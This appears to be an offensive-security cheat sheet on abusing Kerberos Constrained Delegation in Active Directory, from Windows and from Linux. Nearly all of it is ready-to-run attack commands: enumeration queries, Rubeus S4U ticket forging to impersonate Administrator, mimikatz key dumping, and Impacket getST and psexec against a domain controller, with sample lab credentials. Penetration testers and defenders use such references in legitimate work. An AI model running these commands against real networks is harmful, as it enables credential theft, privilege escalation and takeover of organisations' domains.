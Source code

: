 # Kerberos Delegation - Constrained Delegation

> Kerberos Constrained Delegation (KCD) is a security feature in Microsoft's Active Directory (AD) that allows a service to impersonate a user or another service in order to access resources on behalf of that user or service.

## From Windows

### Identify a Constrained Delegation

* **Bloodhound**  
  BloodHound: `MATCH p = (a)-[:AllowedToDelegate]->(c:Computer) RETURN p`

* **PowerView**  
  ```Powershell
  Get-NetComputer -TrustedToAuth | select samaccountname,msds-allowedtodelegateto | ft
  ```

* **Native Powershell**  
  ```powershell
  Get-DomainComputer -TrustedToAuth | select -exp dnshostname
  Get-DomainComputer previous_result | select -exp msds-AllowedToDelegateTo
  ```

### Exploit the Constrained Delegation

* **Rubeus**  
  ```powershell
  # With a password
  Rubeus.exe s4u /nowrap /msdsspn:<time/target.local> /altservice:cifs /impersonateuser:"administrator" /domain:<domain> /user:<user> /password:<password>

  # with a NT Hash
  Rubeus.exe s4u /user:user_for_delegation /rc4:user_pwd_hash /impersonateuser:user_to_impersonate /domain:domain.com /dc:dc01.domain.com /msdsspn:time/srv01.domain.c    om /altservice:cifs /ptt
  #Example
  Rubeus.exe s4u /user:MACHINE$ /rc4:MACHINE_PWD_HASH /impersonateuser:Administrator /msdsspn:"cifs/dc.domain.com" /altservice:cifs,http,host,rpcss,wsman,ldap /ptt
  ```
* **Rubeus: use an existing ticket to perform a S4U2 attack to impersonate the "Administrator"**  
  ```powershell
  # Dump ticket
  Rubeus.exe tgtdeleg /nowrap
  Rubeus.exe triage
  Rubeus.exe dump /luid:0x12d1f7

  # Create a ticket
  Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:cifs/srv.domain.local /ticket:doIFRjCCBUKgAwIBB...BTA== /ptt
  ```
* **Rubeus : Using AES256 keys**  
  ```powershell
  # Get aes256 keys of the machine account using mimikatz
  privilege::debug
  token::elevate
  sekurlsa::ekeys

  # Create a ticket
  Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:cifs/srv.domain.local /user:win10x64$ /aes256:4b55f...fd82 /ptt
  ```

### Impersonate a domain user on a resource
> Requires SYSTEM level privileges on a machine configured with constrained delegations

* **Powershell**  
  ```powershell
  [Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
  $idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('administrator')
  $idToImpersonate.Impersonate()
  [System.Security.Principal.WindowsIdentity]::GetCurrent() | select name
  ls \\dc01.offense.local\c$
  ```
## From Linux

### Identify a Constrained Delegation

* **Impacket find Delegation**  
  ```bash
  Impacket-findDelegation <domain>/<username>:<password> -dc-ip<DC IP>
  ```
* **bloodyAD:**  
  ```bash
  bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(objectCategory=Computer)(userAccountControl:1.2.840.113556.1.4.803:=16777216))' --attr sAMAccountName,msds-allowedtodelegateto
  ```

### Exploit the Constrained Delegation

* **Impacket**  
  ```bash
  Impacket-getST -spn <SPN> 'DOMAIN/user:password' -impersonate Administrator -dc-ip <DC IP>

  #Example
  impacket-getST -spn TERMSRV/DC01 'inlanefreight.local/beth.richards:B3thR!ch@rd$' -impersonate Administrator -dc-ip 10.129.205.35
  ```
### Using the new ticket with PSExec
  ```bash
  export KRB5CCNAME=<CCACHE>
  Impacket-psexec -k -no-pass <domain>/<user>@host -debug

  # Example
  impacket-psexec -k -no-pass inlanefreight.local/administrator@dc01
  ```
